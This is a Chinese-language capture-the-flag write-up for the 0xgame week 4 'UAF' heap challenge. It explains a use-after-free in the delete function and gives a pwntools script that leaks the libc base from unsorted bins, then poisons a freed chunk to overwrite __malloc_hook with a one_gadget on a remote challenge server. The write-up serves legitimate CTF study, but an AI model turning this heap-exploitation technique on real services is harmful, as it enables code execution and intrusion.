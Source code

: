 总体来说，week3还是挺难的，但是还好就三道题，三天干掉嘿嘿嘿。

# 0xgame week4

#### [Week 4] UAF

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-46-1024x467.png" alt="img" style="zoom: 80%;" />

经典菜单题，没有后门函数，所以考虑用onegadget打malloc_hook

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-49.png" alt="img" style="zoom:67%;" />

dele函数有uaf漏洞

直接通过unsorted bins泄露libc基址然后打uaf劫持malloc

上代码

```
from pwn import *
#io = process('./uaf')
io = remote('47.97.58.52',44000)
libc = ELF('libc.so.6')
context(os = 'linux',arch='amd64',log_level='debug')
def add(index,size,content):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter size: ',str(size).encode())
    io.sendafter(b'Enter data: ',content)
def dele(index):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter index: ',str(index).encode())
def show(index):
    io.sendafter(b'>> ',b'3')
    io.sendafter(b'Enter index: ',str(index).encode())
def edit(index,content):
    io.sendafter(b'>> ',b'4')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter data: ',content)
add(8,0x100,p64(0))
for i in range(7):
   add(i,0x100,p64(0))
for i in range(7):
   dele(i)
dele(8)
#gdb.attach(io)
#pause()
show(8)
io.recvuntil(b'Data: ')
addr = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
libc_base = addr - 0x7d43a8121be0 + 0x7d43a7f35000
print(hex(libc_base))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
add(9,0x70,p64(0))
add(10,0x70,p64(0))
add(11,0x70,p64(0))
dele(9)
dele(10)
dele(11)
edit(11,p64(malloc_hook))
gadget1 = libc_base + 0xe3afe
gadget2 = libc_base + 0xe3b01
add(12,0x70,b'12')
add(13,0x70,p64(gadget2))
print(hex(malloc_hook))
```